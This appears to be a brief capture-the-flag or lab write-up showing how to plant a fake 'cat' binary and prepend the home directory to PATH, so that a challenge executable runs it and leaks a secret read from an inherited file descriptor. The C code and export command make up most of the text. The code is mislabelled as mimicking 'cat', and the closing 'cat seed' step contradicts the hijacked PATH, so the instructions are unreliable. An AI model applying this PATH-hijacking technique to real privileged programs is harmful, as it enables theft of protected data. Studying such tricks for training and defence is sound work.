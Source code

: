 ## Tryouts 

 - Write a simple C program (e.g., cat.c) in your home directory that mimics the behavior of the "cat" command:
``` 
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[]) {
    int fd = open(argv[1], O_WRONLY | O_CREAT, 0644);
    char buf[16];
    read(3, buf, sizeof(buf));
    write(fd, buf, sizeof(buf));
    close(fd);
    return 0;
}
```

 - Create a file named `seed` in your home directory
 - Add your home directory to the PATH environment variable.
 ```
 export PATH=$HOME:$PATH
```

 - Execute the tryouts executable in its folder.

 -  Use the `cat seed` to read the file. The solution will be revealed.

 This approach leverages a fake "cat" command to intercept the solution and demonstrates how manipulating the PATH can influence command execution.
